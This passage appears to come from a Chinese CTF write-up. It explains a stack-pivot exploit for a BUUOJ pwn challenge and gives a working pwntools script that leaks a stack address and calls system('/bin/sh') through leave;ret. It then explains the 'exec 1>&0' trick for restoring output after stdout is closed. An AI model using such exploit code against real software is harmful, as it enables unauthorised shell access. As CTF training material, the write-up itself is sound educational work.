 前几次做的栈迁移都是将栈迁移至bss段，但此题并不能迁移到bss段，因为没有向bss段写入的函数，好在上图中第一次printf可以泄露出栈地址（ebp），我们可以通过动态调试找出这个地址和我们输入的内容之间的偏移，从而知道我们输入的东西放在栈上什么地方，然后在第二次read时改变ebp，使得函数结束栈顶指针指向我们构造好的栈顶处，并执行我们想要他执行的函数。栈迁移原理详解见上面某篇题解。

如下图，随便输入个1234，计算出偏移为0xffffd008 - 0xffffcfd0 = 0x38

![image-20210421004509293](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741602.png)

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = process('./pwn')
p = remote('node3.buuoj.cn', 29774)
e = ELF('./pwn')
system_plt_addr = e.plt['system']
p.recvuntil('name?\n')
payload1 = b'a' * 40
p.send(payload1)
p.recv(47)
previous_ebp = u32(p.recv(4))
stack_addr = previous_ebp - 0x38
print("stack_addr:" + hex(stack_addr))
p.recvuntil("\n")
bin_sh_addr = stack_addr + 12
leave_ret_addr = 0x080484b8
payload2 = p32(system_plt_addr) + p32(0xdeadbeef) + p32(bin_sh_addr) +'/bin/sh'
payload2 = payload2.ljust(40, '\x00') + p32(stack_addr - 4) + p32(leave_ret_addr)
p.send(payload2)
p.interactive()
```

# wustctf2020_closed

![image-20210421160151103](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741170.png)

close(1)和close(2)是什么意思？

我们知道close用于关闭已经打开的文件，而1和2是linux下的**文件描述符**。

在Linux中一切皆文件，文件描述符（file descriptor）是内核为了高效管理已被打开的文件所创建的索引，是一个非负整数（通常是小整数），用于指代被打开的文件，所有执行I/O操作的系统调用都通过文件描述符。**0、1、2是三个文件描述符，分别表示标准输入文件stdin（获取从键盘输入的数据），标准输出文件stdout（将数据显示到屏幕上），标准错误输出文件stderr（将报错显示到屏幕上），在程序开始运行时，这三个文件自动打开并分别使用各自的文件描述符。**如果此时去**打开一个新的文件，它的文件描述符会是3。**

标准输入输出的指向是默认的，我们可以修改它们的指向，也即重定位

举例子，可以用exec 1>myoutput把标准输出重定向到myoutput文件中，也可以用exec 0<myinput把标准输入重定向到myinput文件中，而且，**文件名字可以用&+文件描述符来代替。**

所以，**close(1);close(2)即把标准输出和标准错误输出关闭**，然后我们可以执行 **exec 1>&0，也就是把标准输出重定向到标准输入**，因为**默认打开一个终端后，0，1，2都指向同一个位置也就是当前终端**，所以这条语句相当于重启了标准输出，此时就可以执行命令并且看得到输出了

更详细的介绍可见https://blog.csdn.net/xlinsist/article/details/51147212

![image-20210421161356582](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041742224.png)
